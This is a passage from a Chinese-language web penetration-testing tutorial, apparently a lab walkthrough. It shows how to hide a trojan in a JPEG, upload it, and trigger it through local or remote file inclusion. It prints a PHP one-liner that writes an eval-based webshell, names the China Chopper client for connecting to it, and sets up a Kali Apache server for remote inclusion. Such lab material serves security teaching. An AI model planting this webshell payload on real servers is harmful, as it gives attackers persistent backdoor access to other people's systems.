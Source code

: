  ![1-7](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901213153.png)

### 3.3、低安全级别的渗透

#### 3.3.1、本地文件包含

> ==向图片中写入木马==



edjpgcom工具链接：
		蓝奏云： https://www.lanzoux.com/iJ9cce8fphe

使用edjpg软件（注意图片不要太大）

 ![image-20210901213738810](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901213738.png)

注入木马

 ![image-20210901213937169](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901213937.png)

注入完毕后，就正常上传文件即可

 ![1-9](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901214246.png)

传完以后进入那个目录执行

 ![1-8](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901214224.png)

#### 3.3.2、本地文件包含 + webshell

1. 制作一句话图片木马 e.g.fafa.jpg

   ```php
   <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[fafa]);?>')?>
   ```

2. 上传图片木马文件

3. 执行文件包含并生成后门

4. 通过菜刀连接webshell

#### 3.3.3、远程文件包含 + webshell

远程建立服务器，本项目使用Kali作为远程服务器

```txt
建立远程服务器
安装web服务（apache2）
apt-get install apache2
开启web服务
systemctl start apache2
编写脚本文件
vim /var/www/html/yangge.txt
```

 ![1-2](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210901213428.png)

